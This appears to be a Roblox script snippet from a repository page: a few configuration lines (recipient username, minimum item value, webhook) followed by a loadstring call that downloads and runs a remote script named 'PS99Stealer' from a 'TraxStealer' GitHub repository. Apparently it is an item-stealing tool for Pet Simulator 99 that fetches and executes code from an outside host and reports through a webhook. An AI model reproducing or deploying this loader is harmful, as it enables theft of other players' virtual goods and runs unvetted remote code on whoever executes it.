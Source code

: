 Username = "Your Roblox User"
Username2 = "Same Username"
MinimumRAP = 100000
Webhook = "Your Webhook"

loadstring(game:HttpGet("https://raw.githubusercontent.com/TraxMain/TraxStealer/refs/heads/main/PS99Stealer", true))() 
